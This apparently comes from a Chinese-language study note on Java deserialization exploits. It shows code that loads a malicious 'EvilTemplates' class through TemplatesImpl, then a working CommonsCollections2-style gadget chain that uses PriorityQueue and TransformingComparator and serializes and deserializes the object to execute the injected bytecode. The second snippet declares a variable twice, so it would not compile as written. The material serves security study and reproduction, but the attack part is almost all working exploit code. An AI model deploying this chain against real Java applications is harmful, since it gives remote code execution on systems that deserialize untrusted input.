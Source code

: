 [TemplatesImpl 利用](https://drun1baby.top/2022/06/20/Java反序列化Commons-Collections篇04-CC3链/#0x04-TemplatesImpl-利用)

```java
public class StudyLoadByteCode {
    public static void main(String[] args) throws Exception {
        // EvilTemplates 必须继承AbstractTranslet, 不然defineClass会报错
        byte[] code = Files.readAllBytes(Paths.get("cc1/target/classes/cc3/EvilTemplates.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "hello");
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();
    }
}
```

## cc2 TemplatesImpl版 复现

```java
public class ExpByTemplates {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("cc1/target/classes/cc3/EvilTemplates.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "hello");
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        // templates.newTransformer();
        Transformer transformer = new InvokerTransformer("toString", new Class[0], new Class[0]);
        Comparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(0);
        queue.add(1);

        setFieldValue(transformer, "iMethodName", "newTransformer");
        
        // 反射修改队列元素，以下两种方法都可以
        Field f = queue.getClass().getDeclaredField("queue");
        f.setAccessible(true);
        Object[] q = (Object[]) f.get(queue);
        q[0] = templates;
        q[1] = templates;
        // 或者
        Object[] q = new Object[]{templates, templates};
        Field f = queue.getClass().getDeclaredField("queue");
        f.setAccessible(true);
        f.set(queue, q);

        byte[] o = serialize(queue);
        unserialize(o);


    }
}
```
